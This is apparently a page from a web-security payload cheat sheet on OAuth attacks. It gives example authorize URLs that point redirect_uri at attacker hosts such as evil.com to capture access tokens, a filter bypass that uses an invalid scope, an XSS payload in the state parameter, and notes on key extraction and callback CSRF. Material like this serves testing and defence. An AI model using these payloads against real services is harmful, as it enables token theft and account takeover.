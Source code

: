 # OAuth

### Grabbing OAuth Token via redirect\_uri

Redirect to a controlled domain to get the access token

```csharp
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

OAuth implementations should never whitelist entire domains, only a few URLs so that "redirect\_uri" can’t be pointed to an Open Redirect.

Sometimes you need to change the scope to an invalid one to bypass a filter on redirect\_uri:

```csharp
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

### Executing XSS via redirect\_uri

```csharp
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```

### OAuth private key disclosure

Some Android/iOS app can be decompiled and the OAuth Private key can be accessed.

### Cross-Site Request Forgery

Applications that do not check for a valid CSRF token in the OAuth callback are vulnerable. This can be exploited by initializing the OAuth flow and intercepting the callback \(`https://example.com/callback?code=AUTHORIZATION_CODE`\). This URL can be used in CSRF attacks.

